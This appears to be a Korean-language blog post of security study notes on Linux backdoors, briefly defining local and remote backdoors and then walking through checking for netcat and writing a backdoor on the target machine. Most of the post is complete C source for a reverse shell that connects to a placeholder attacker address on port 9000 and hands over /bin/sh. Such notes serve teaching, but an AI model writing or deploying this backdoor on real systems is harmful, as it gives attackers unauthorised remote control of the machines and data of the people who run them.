 ```yaml
---
title:  "backdoor-linux" 

categories:
  - malware
tags:
  - [backdoor,linux]

toc: true

date: 2022-10-18
last_modified_at: 2022-10-18
---
```


## backdoor - linux

- 정상 인증을 거치지 않고 시스템에 접근

- local backdoor      : 관리자의 권한을 취득

- remote backdoor  : 인증없이 접근



- 구성도

- nc 실행하여 설치 되어있는지 확인

  ```
  [root@localhost ~]# nc
  ```

  ![화면 캡처 2022-10-18 191131](../../assets/img/화면 캡처 2022-10-18 191131.png)

- 공격대상에 백도어+ 쉘 소스코드생성

  ```
  [root@localhost ~]# vim /root/reverse_shell.c
  
  #include <sys/socket.h>
  #include <netinet/in.h>
  #include <arpa/inet.h>
  #include <netdb.h>
  #include <unistd.h>
  #include <errno.h>
  int main(int argc, char* argv[])
  {
          struct sockaddr_in server_addr;
          int server_sock;
          int client_len;
          char buf[80];
          char rbuf[80];
          char *cmd[2] = {"/bin/sh",(char *)0};
          server_sock = socket(AF_INET, SOCK_STREAM, 6);
          server_addr.sin_family =  AF_INET;
          server_addr.sin_addr.s_addr = inet_addr("공격자주소");
          server_addr.sin_port = htons(atoi("9000"));
          client_len =  sizeof(server_addr);
          connect(server_sock,(struct sockaddr *) &server_addr, client_len);
          dup2(server_sock, 0);
          dup2(server_sock, 1);
          dup2(server_sock, 2);
          execve("/bin/sh", cmd, 0);
          return 0;
  }
  ```